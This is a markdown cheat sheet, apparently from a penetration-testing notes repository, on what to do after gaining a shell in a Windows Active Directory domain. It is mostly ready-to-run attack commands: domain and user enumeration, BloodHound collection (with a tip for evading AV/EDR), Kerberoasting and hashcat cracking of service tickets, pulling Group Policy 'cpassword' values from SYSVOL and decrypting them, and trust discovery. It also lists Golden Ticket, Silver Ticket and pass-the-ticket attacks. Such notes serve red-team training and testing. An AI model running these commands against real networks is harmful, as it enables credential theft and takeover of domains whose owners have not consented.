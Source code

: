 # Basics on what to do upon getting shell/rce


**Note:** Try as much as possible to [Live off the land](https://lolbas-project.github.io/)
___

## Just basic stuff

```batch
whoami /all
hostname
ipconfig /all
systeminfo
gpresult /R 
dir
tree /f /a
tasklist /V
net user
net user /domain
net user <username>
net user <username> /domain
net localgroup
net localgroup administrators
net groups /domain
net group "<group>" /domain
net group "domain admins" /domain
klist
```
___
## NLTest[^1]
       
```batch
nltest /dclist:<domain>
nltest /dsgetdc:<domain>
nltest /domain_trusts /all_trusts
```
___
## Powershell Enumeration[^1]

```powershell        
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', '<domain>')))).GetAllTrustRelationships()
```
___ 

## [Dumping credentials](../../#dumping-credentials)
___
## Bloodhound (Sharphound)[^2] 

1. On local machine  (~Kali)


```batch
git clone https://github.com/fox-it/BloodHound.py.git #Bloodhound.py does not have all the features compared to the original Sharphound ingestors
cd BloodHound.py/ && pip install .
bloodhound-python -d <domain> -u <username> -p <password> -gc <domain_controller> -c all

sudo apt install neo4j bloodhound
# Access neo4j and change the neo4j/neo4j default credentials.
# While neo4j is still running, run bloodhound
bloodhound
```

1. Sharphound Officialy supported ingestors [^3][^4]
   * Running the official/supported Sharphound Collectors collects more information [
       * although Bloodhound.py is quick and good for most cases
   * Runas
       * If logged in on a local user account but have domain user credentials, then on the command-line
       * This works also to get SharpHound to work and ingest data even if your own Windows VM is not part of the Domain.
           * This bypasses the need to run SharpHound ps1 on the host itself with AVs/ERDs
   ```powershell
   C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe
   
   # then on the spawned powershell
   Import-Module .\SharpHound.ps1
   Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
   ```

___
## General Attack methods
* Methods [^5][^6]
     * Golden Ticket
         * Requires full domain compromise.
         * Used for persistenceand pivoting
     * Kerberoasting
         * Requires access as any user. 
         * Use to escalateand pivot
     * Silver Ticket
         * Requires service hash.
         * Use for persistenceand escalation
     * Pass-the-Ticket
         * Requires access as user.
         * Use to pivot
     * Over-Pass-the-Hash
         * Requires access as user.
         * Use to pivot
___

## Kerberoasting
1. From Linux [^1][^7]
    * Beware of time difference of the attacking machine (Kali) and the targeted Domain Controller
    ```bash
    GetUserSPNs.py -debug -request -outputfile TGS_file.txt -dc-ip <DC_IP_Address> <FQDN>/<username>
    ```

1. From Windows
    * Refer to [m0chan's blog](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
    ```batch
    hashcat64.exe -a 3 -m 13100 SPN.hash /wordlists/rockyou.txt
    ```

___

## Gathering Windows GPP passwords[^8]

1. On target machine logged-on with a regular domain account
    ```batch
    findstr /S cpassword \\<domain_controller>\sysvol\*.xml
    ```
1. On local machine (~Kali)
    ```bash
    gpp-decrypt <cpassword_value>
    ```

___

## ADFind[^9]
```batch
adfind.exe -f objectclass=trusteddomain
adfind.exe -sc trustdmp
```
    
[^1]: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
[^2]: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
[^3]: [Github - Bloodhound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
[^4]: [ReadTheDocs - Bloodhound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
[^5]: [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
[^6]: [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
[^7]: [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
[^8]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^9]: [Redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
